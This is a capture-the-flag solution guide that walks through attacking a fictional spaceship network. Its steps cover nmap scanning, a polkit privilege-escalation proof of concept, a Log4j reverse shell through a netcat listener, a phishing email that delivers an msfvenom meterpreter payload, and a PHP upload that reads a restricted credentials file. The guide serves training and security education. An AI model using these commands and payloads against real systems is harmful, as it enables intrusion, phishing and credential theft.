




# Interstellar Intrusions

*Solution Guide*

## Overview

Perform external network reconnaissance and exploitation to access a set of systems within a spaceship's network.

### Preliminary Steps

Preliminary steps toward solving this challenge are:

- scan the network to confirm the IP of the firewall (`123.45.67.89`)
- scan the firewall for open ports
- identify running services or OS types
- correlate your findings with the vulnerability and exploit information found in-game here: `challenge.us`



A port scan will identify open ports that are NAT'd or forwarded through the firewall.


There are at least two web services, one SSH service, and one FTP service. This gives you clues as to which exploits might work to accomplish your goals.

## Question 1

*What is the flag retrieved from the standard server in the DMZ?*

First, find the open port and SSH service at the firewall through scanning (if not already done).

```bash
sudo nmap -p1-65535 -T5 -sV 123.45.67.89 
```

The `-T5` intensity option speeds up the scan but is not absolutely necessary.


An open port at 12322 is running an OpenSSH server service. Connect to this server over this port to see the SSH login banner, which identifies this system as running Ubuntu 20.04 LTS (Focal).


One of the credentials listed in the credentials file provides access. Verify the credentials will let you login, but only as a standard user. Thus, you cannot access the files in the `/root/` directory without the sudo password, which you don't have.

In the vulnerability and exploit information there is a CVE that applies specifically to Ubuntu 20.04 -- the policy kit exploit.

Download, extract, and view the script. The proof-of-concept script will attempt to insert a new username and password into the system with sudo/admin privileges. Edit the script to include your desired username and password, otherwise it uses the defaults.


You can run the script against the server remotely in one command:

```bash
sshpass -p 'gr3g3v@ll3ys' ssh greg@123.45.67.89 -p 12322 <
/home/user/Desktop/poc.sh (depending on where you stored the shell
script)
```

As noted in the script and README, you may need to run this script multiple times before it takes because the vulnerability is somewhat based on a race condition. However, the output of an initial run will seem promising as it confirms that this server is vulnerable.


Eventually, the script should succeed. Keep trying until you see the results below.


Now, attempt to login via SSH with the credentials you added to the script (or the defaults if you did not change them).


There is a chance that the exploit script was able to log in as the user but not apply the password, as shown above. If this happens, try running the exploit script a few more times to be sure, and try to log in again. Eventually you will be able to log in.


Finally, with your new sudo privileges, view the contents of the token file found in the root directory.


The contents of the token1.txt file will be the submission for question 1.

If you are still unsure which question this system applies to for submission, you can run ip addr with your new account to verify the IP address sits inside the DMZ (and we know it is not running a web service, so it is not the DMZ webserver).


## Question 2

*What is the flag retrieved from the webserver in the DMZ?*

First, find the open web ports at the firewall through scanning, if not already done.

```bash
sudo nmap -p1-65535 -T5 -sV 123.45.67.89
```

The -T5 intensity option speeds up the scan but is not absolutely necessary.

There is another Apache service running out there on port 54380, though this applies to a later question. You won't know which one applies to which question until connecting, but for the purposes of this guide, we will assume we already know the webserver running on port 48080 to be the one running in the DMZ network (10.7.7.0/24). 

You should find an open webserver running on port 48080 _and_ it should appear that it is running Apache Tomcat.


Browsing to the site at `http:/123.45.67.89:48080` displays a login prompt for a fuel supply site. Based on the vulnerabilities given from the challenge site, the Log4j exploit seems the most likely to work here given that it is running Apache and has a fillable field that we can leverage. Again, we're making our best guess here based on what we observer and testing what exploit best applies.


Review the materials in the log4j related zip folder after downloading and extracting the files.

The README will give you some hints on how to exploit the vulnerability using the provided `poc.py` script.

First, you must check that you have the proper Python packages installed. While colorama is installed, argparse is not, so install it.

```bash
pip3 install argparse
```


Next, start a listener in `netcat` on a port of your choice.

```bash
nc -lvnp 4545
```


Next, you'll notice that the script requires that the proper Java library is placed in the working directory of the script. Therefore, you should grab the correct version of Java from the challenge files site and then extract/unzip it to the working directory of the poc.py script. The correct Java version is specified as 8u20 and you should grab the version for linux x64.

Then rename the folder as specified in the README as jdk1.8.0_20.


Finally, you can run the script while providing your IP address and the port you are listening on. Remember, this is your IP, the web port you want the server to run on, and the port you have set `netcat` to listen to. These are not the parameters of the webserver or site you are trying to exploit.

```bash
python3 poc.py --userip 123.45.67.105 --webport 8000 --lport 4545
```

If successful the script will generate a string for you to paste into one of the fields on the site and start a fake LDAP server to receive the returning communication.


Copy the string following "Send me:" and paste it into the username field of the site page. Add any password you like and click "Login".


If done properly, you should see a connection in your `netcat` terminal window.


You can reestablish as needed at this point by refreshing the browser and reclicking "Login". Make sure to restart your `netcat` listener as needed as well, and ensure the Python script is still running in the background.

Checking the working directory will show you are in /usr/local/tomcat and a whoami will show you are root.

Also, you should run `ifconfig` or `ip addr`` to confirm the IP address of the system, which will place it in the DZM network of 10.7.7.0/24. As this is the only websrver found in the DMZ, the token found on this system is the answer to question 2.

The token for this part of the challenge can be found in /root/, so change directories and list the files to see if the token exists.


There is a token file in /root/, though you'll notice it is in an image file format, meaning we have to get it back to our system somehow.


You might think to try `scp` or `netcat`, but since you are actually in the shell of a docker container, none of these tools are available. The next option might be to grab the raw hexdump of the file and copy it to your system where you rebuild it into its original form.

Xxd and hexdump do not exist, but a quick search of other methods should provide `od` as an option.

Use the command: `od -A n -t x1 token2.png` to produce the hex output in the terminal.


Copy these lines from the terminal and paste them into an empty text file on your Kali system.

Then in the directory of the text file you can use hexdump or install xxd from the apt repo to convert it back to the binary form (xxd is likely easier, though it requires it to be installed by you, which you can do in-game). You could also potentially copy the hexddump contents to your local system.

```bash
xxd -r -p hexdump > token2.png
```


Doing so you should be able to now view the original image file that contains the token or flag for this part of the challenge.


## Question 3

*What is the flag retrieved from the user machine in the User-A network?*

Unlike the other three objectives, this does not require any scanning or an open service, because mail is already working.

Browse to `https://mail.merch.codes` from your Kali system (this will forward and work even though we are accessing it externally). Register yourself for an account so you can send emails to the internal users.


Craft your email to `user@merch.codes`, making sure to include the hyperlink to `http://yourfiles.zip`, that appears like a filename.


You can send the email now and trigger the grading check later, or wait to send the email until you have the web server and listener setup and running. We recommend sending now so you aren't waiting for the mail server to receive it later.

Next, create the payload you would like to host on the webserver/website. Your IP and port could differ as long as you configure the machine as needed. You should not use port 80 with `123.45.67.150` because this is what will host your webserver.

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=123.45.67.150
LPORT=8080 -f elf > payload.elf
```



Set up an interface for `123.45.67.150`. You can use a virtual interface:

```bash
sudo ifconfig eth0:1 123.45.67.150/24
```

Setup a simple Python http server that will host a payload using malicious html template to auto run on access.

Download the Python webserver template from `https://challenge.us/files`:


Modify the template to point to the location of the payload you created.


Run the webserver with `sudo python3 webserver.py`.


You can test the webserver and page by browsing to it locally. Doing so should download your payload file to your Downloads folder if you set up everything properly.

Finally, setup a Metasploit listener to match the payload:

Run `msfconsole`.

Then, use the following parameters (or modify according to the payload you created):

```
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 123.45.67.150
set LPORT 8080
set ExitOnSession false
exploit -j
```

Trigger the grading check, which will report back with a few messages depending on the state of your environment:

1. If no emails are found addressed to `user@merch.codes` you will be notified.
2. If the emails to `user@merch.codes` are not coming from `it-admin@merch.codes` you will be notified.
3. If the emails meet the above conditions but do not contain a viable link to `http://yourfiles.zip` you will be notified.
4. If all above conditions are met, the grading check will trigger a script on the user system that will download and execute your payload file for 30 seconds. If this does not result in a connection, you may need to check if your payload and/or listener are set up properly and try the grading check again once the 30 secon timeout ends. You do not need to resend the email if you have received this message because the email has already been validated.

Once you have a session in Meterpreter use `sessions -i 1` to interact.

You will land in the **Downloads** folder for user, since that is where the payload was executed.

Simply browse to /home/user (`cd ..`), view the contents of the directory (`ls`), and view the token3.txt file (`cat token3.txt`).

You will need to do the above quickly. Otherwise, you can set up an autorun script in metasploit once you connect to a session.

## Question 4

*What is the flag retrieved from the standard server in the User-B network?*

By finding the open ports in the scan results you should find an FTP service and a second web service running on ports 54321 and 54380.


You can connect to the FTP service to verify it is working and browse to the address `123.45.67.89:54380` to verify this is the website for the FTP server. This is different from the FTP server that may be running inside the `merch.codes` network -- this
service seems to be specifically for uploads.


Connect to the FTP service with the account provided from the challenge files site: **lilysmith|SecUr3!456**


There is nothing in your directory. Go up a level to the home directory and view other directories for other users.


Most directories are empty, but there are two that are not. The first is the `administrator` directory, which we know holds the flag or token file based on the challenge question. The second is the `samjones` directory.

You can `cd` to `samjones` and view the file within named `creds.txt`, but you can't  view the contents or get the file due to its permissions (and we do not have administrator access yet). Attempting to do so will fail.


Let's circle back to the FTP uploads website, which mentions that we can upload files of type .txt, .html, and .php. (There is nothing stopping you from uploading other types -- this is just a hint on how to access the restricted file contents.)

The site implies we can upload to the **ftp-uploads** directory seen in the top-level directory. Test this by uploading a file and then seeing it on the webpage if you browse to `http://10.2.2.233` by itself.


And, we can view our file in the browser.


Now we have a clue. If we can somehow get the contents of the text file into something the bowser can interpret and upload that file to the ftp-uploads directory, we should be able to view the contents of the restricted file (in theory).

Create a php file named **display.php** (or some other name you like) and fill it with the following, making sure to point to the correct directory and filename that you want to expose:

```php
<?php
$filename = '/home/samjones/creds.txt';
$content = file_get_contents($filename);
?>

<!DOCTYPE html>
<html>
<head>
<title>File Content</title>
</head>
<body>
<pre><?php echo $content; ?></pre>
</body>
</html>
```

Put the display.php file into the ftp-uploads directory via FTP:

```
put display.php
```



Finally, browse to the file you just uploaded at: `http://123.45.67.89:54380/display.php`.


You have successfully circumvented the permission on the file and can now retrieve the administrator password: **administrator|$3cr3t@Pass789**.

Once you have successfully logged in via FTP as the administrator: run an `ls` command; retrieve the token file with an FTP `GET` ; read the contents of `token4.txt` for the submission flag.



```
get token4.txt
```

Exit the FTP session and view the contents of the `token4.txt` file on your local system via the terminal with **cat** or **less**, or open it with any text editor.
